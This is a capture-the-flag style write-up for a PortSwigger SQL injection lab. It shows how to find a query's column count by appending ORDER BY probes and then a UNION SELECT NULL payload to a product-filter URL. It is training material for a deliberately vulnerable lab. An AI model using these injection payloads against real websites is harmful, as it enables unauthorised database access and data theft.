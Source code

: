 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Lab Link:** [https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## 🧠 Objective

Determine the **number of columns** returned by the original SQL query, which is necessary to perform a successful `UNION SELECT` injection.

---

## 🛠️ Step-by-step Solution

### 🔹 Step 1: Open a product category

Click on any product category, such as:

/filter?category=Accessories


This triggers the vulnerable query in the backend.

---

### 🔹 Step 2: Use `ORDER BY` to identify column count

Append the following payloads one by one to the URL and observe the behavior:

```http
/filter?category=Accessories' ORDER BY 1--
/filter?category=Accessories' ORDER BY 2--
/filter?category=Accessories' ORDER BY 3--
/filter?category=Accessories' ORDER BY 4--
✅ If ORDER BY 3-- works but ORDER BY 4-- returns an Internal Server Error, that means the query has 3 columns.

 Step 3: Use UNION SELECT with correct column count
Now that you know the query returns 3 columns, send this payload:
/filter?category=Accessories' UNION SELECT NULL,NULL,NULL--
✅ If the payload succeeds (no error page), the lab is solved.